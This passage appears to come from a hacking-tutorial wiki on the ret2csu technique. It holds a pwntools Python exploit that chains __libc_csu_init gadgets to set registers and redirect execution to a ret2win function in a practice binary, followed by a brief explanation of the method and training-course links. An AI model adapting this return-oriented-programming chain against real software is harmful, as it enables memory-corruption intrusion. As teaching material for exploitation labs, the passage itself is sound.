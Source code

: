 ```python
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX
    
# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```

### Why Not Just Use libc Directly?

Usually these cases are also vulnerable to [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), but sometimes you need to control more parameters than are easily controlled with the gadgets you find directly in libc. For example, the `write()` function requires three parameters, and **finding gadgets to set all these directly might not be possible**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

